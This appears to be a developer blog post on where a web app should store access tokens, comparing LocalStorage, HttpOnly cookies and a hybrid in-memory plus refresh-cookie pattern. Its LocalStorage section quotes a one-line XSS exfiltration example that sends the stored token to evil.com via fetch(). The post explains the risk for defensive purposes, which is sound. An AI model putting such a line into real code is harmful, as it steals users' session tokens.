



## Introduction: A Simple Question That Reveals Everything

While exploring frontend development, I often ask one particular interview question: _"Where do you store the access token in a web application?"_

On the surface, this sounds like a beginner-level question. But in reality, it's a powerful "microscope" that clearly reveals a developer's mindset around security and system architecture. I've seen Senior developers with 5–7 years of experience stumble on this, and I've also been genuinely impressed by some Junior developers' thorough and thoughtful approaches.

Why does something as seemingly trivial as "storage location" matter so much? Let's dive deep into the maze of browser security.

## 1. LocalStorage: The Seduction of Convenience

The most common answer I receive is:

> _"I store it in LocalStorage because it persists across page reloads and it's easy to retrieve and attach to API request headers."_

**The truth is: LocalStorage was never designed with security in mind.**

When you put a Token into LocalStorage, you are throwing open the door for attackers through **XSS (Cross-Site Scripting)** vulnerabilities. If your application gets injected with a malicious script — from a compromised third-party npm library or an unsanitized user input — an attacker can steal the token with just one line of code:

```js
fetch("https://evil.com?stolen=" + localStorage.getItem("token"));
```

### XSS Attack Scenario Against LocalStorage



**The price of convenience:** You trade a smooth user experience for an enormous risk. If your application deals with financial data or sensitive personal information, this is a critical vulnerability.

## 2. Cookie: The "HttpOnly" Shield and the CSRF Concern

When I ask: _"How do you prevent JavaScript from reading the token?"_, stronger candidates will answer: **"Use an HttpOnly Cookie"**.

This is where we enter the world of security flags:

- **HttpOnly**: Completely prevents JavaScript from accessing the Cookie. XSS attacks can no longer "read" the token.
- **Secure**: Ensures the cookie is only sent over HTTPS connections.
- **SameSite (Lax/Strict)**: Restricts the cookie from being sent with cross-domain requests.

### The HttpOnly Isolation Mechanism



**But the world isn't all roses.** When you use Cookies, you escape XSS only to run straight into **CSRF (Cross-Site Request Forgery)**.

Because the browser automatically sends Cookies with every request, an attacker can trick a user into clicking a malicious link on another website, which then fires an "impersonation" request to your server.

> **CSRF Mitigation**: Use CSRF tokens, the `X-Requested-With` header, or properly configure `SameSite=Strict/Lax`.

## 3. Deep Dive: The "Hybrid" Solution — The Senior Developer's Choice

A true Senior developer won't pick "black" or "white". They choose a **thoughtful combination (trade-off)**.

The solution I value most in interviews is the **Silent Refresh** pattern.

### Layered Architecture

| Token             | Storage Location  | Lifespan         | Purpose                 |
| ----------------- | ----------------- | ---------------- | ----------------------- |
| **Access Token**  | RAM (JS variable) | Short (15 min)   | API calls               |
| **Refresh Token** | HttpOnly Cookie   | Long (7–30 days) | Obtain new Access Token |

- **Access Token (Short-lived)**: Stored in memory (a JavaScript variable). Extremely short lifespan. Since it lives in RAM, XSS attacks struggle to capture it, and it disappears when the tab is closed or the page reloads.
- **Refresh Token (Long-lived)**: Stored in an HttpOnly Cookie. Used to obtain a new Access Token without forcing the user to log in again.

### The Silent Refresh Flow (How It Works in Practice)



### Why Does This Approach Score Points?

- ✅ **Prevents XSS from stealing long-term tokens**: Because the Refresh Token lives in an HttpOnly Cookie.
- ✅ **Prevents XSS from achieving permanent access**: Because the Access Token in RAM disappears when the page closes.
- ✅ **Optimizes UX**: Users don't need to log in repeatedly thanks to the background refresh mechanism.

## 4. Trade-offs — The Mindset of a Systems Thinker

Engineering is fundamentally about trade-offs. There is no perfect solution, only the most appropriate one.

| Solution                 | Security Risk    | User Experience      | Technical Complexity                |
| ------------------------ | ---------------- | -------------------- | ----------------------------------- |
| LocalStorage             | 🔴 High (XSS)    | ⭐ Good (Persistent) | 🟢 Low                              |
| Plain Cookie             | 🟡 Medium (CSRF) | ⭐ Good              | 🟡 Medium                           |
| Hybrid (Memory + Cookie) | 🟢 Low (Safest)  | ⭐ Good              | 🔴 High (Must handle Refresh logic) |

**When to use what?**

- **Personal to-do list app**: LocalStorage is probably fine.
- **Online banking or E-commerce system**: Implementing the Hybrid Flow or even a **BFF (Backend for Frontend)** pattern is non-negotiable.

## Closing Thoughts for Developers

When I ask this question in an interview, I'm not looking for a product name (like "LocalStorage"). What I'm looking for is **a discussion about risk**.

A great Senior Developer isn't the one who knows the most technologies — it's the one who **most clearly understands the cost of every line of code they write**.

Next time you type `localStorage.setItem()`, ask yourself: _"Am I leaving a door open for someone?"_

I hope this post gives you a deeper perspective on a topic that seems old but has never stopped being relevant in web development.
